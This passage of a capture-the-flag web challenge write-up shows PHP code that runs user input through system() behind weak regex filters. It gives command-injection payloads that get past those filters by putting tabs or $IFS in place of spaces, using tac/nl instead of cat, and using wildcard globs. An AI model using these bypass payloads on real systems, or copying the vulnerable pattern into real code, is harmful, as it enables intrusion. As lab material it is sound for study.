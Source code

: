 ```
?c=nl f*%26%26ls
```

```
?c=tac%20f*%26%26ls
```

## web45

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

```
?c=ls%26%26ls
```

```
?c=tac%09f*%26%26ls  // %09 代替 %20
```

```
?c=nl%09f*%26%26ls
```

```
?c=echo$IFS`tac$IFS*`%0A  // $IFS 代替空格
```

## web46

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

```
?c=tac%09fla?.php%26%26ls  // ? 只占一位
```
